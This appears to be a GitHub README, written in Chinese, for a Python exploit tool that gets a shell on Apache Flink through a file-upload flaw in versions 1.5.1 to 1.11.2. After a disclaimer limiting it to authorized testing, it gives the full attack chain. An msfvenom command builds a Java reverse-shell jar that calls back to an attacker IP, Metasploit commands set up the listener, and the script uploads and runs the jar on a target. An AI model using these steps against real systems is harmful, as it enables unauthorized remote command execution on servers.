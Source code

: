 # Apache-flink-fileupload-getshell
Apache-Flink


# 免责声明
使用本程序请自觉遵守当地法律法规，出现一切后果均与作者无关。

本工具旨在帮助企业快速定位漏洞修复漏洞,仅限授权安全测试使用!

严格遵守《中华人民共和国网络安全法》,禁止未授权非法攻击站点!

由于用户滥用造成的一切后果与作者无关。

切勿用于非法用途，非法使用造成的一切后果由自己承担，与作者无关。

### 背景介绍
```
Apache Flink是一个面向数据流处理和批量数据处理的可分布式的开源计算框架。它可以用来做批处理，即处理静态的数据集、历史的数据集；也可以用来做流处理，即实时地处理一些实时数据流，实时地产生数据的结果；也可以用来做一些基于事件的应用；该漏洞允许攻击者利用REST API，并通过精心构造的HTTP Header，实现远程文件写入。

影响版本：Apache Flink: 1.5.1 —— 1.11.2
```


### 食用方法

首先需要使用msf生成一个jar包的攻击载荷
```
msfvenom -p java/shell_reverse_tcp lhost=192.168.99.5 lport=4444 -f jar > exp.jar
```

![image](https://github.com/FeiNiao/Apache-flink-fileupload-getshell/assets/66779835/24e8e86b-571b-4670-bae1-83eb89b204e5)


将攻击载荷`exp.jar`放入到python脚本的同级目录下
注：在脚本中攻击载荷的名字写死了为`exp.jar`，使用者可以随意更换

攻击载荷生成完成后，在msf上建立监听接受反弹的shell

```
use exploit/multi/handler

set payload java/shell/reverse_tcp

set LHOST 0.0.0.0

set LPORT 4444

exploit
```
![image](https://github.com/FeiNiao/Apache-flink-fileupload-getshell/assets/66779835/63d6b1f9-45ba-4a3b-91ee-d3319c0e361a)


随后执行python脚本
```
 python .\apache_flink文件上传getshell.py -u http://192.168.99.7:8081
```
![image](https://github.com/FeiNiao/Apache-flink-fileupload-getshell/assets/66779835/a1d2474c-78e7-4554-ab65-f9b9f1fa7b6e)


脚本会返回apache-flink的版本信息，若存在漏洞则会上传`exp.jar`包，成功上传后会返回jar包落地的文件名，并且会执行该jar包
执行完攻击载荷就可以在msf上看是否反弹了shell回来

![image](https://github.com/FeiNiao/Apache-flink-fileupload-getshell/assets/66779835/8c367411-c3ce-4043-be51-fcf55629b5f8)

成功反弹shell，并且可以成功执行命令
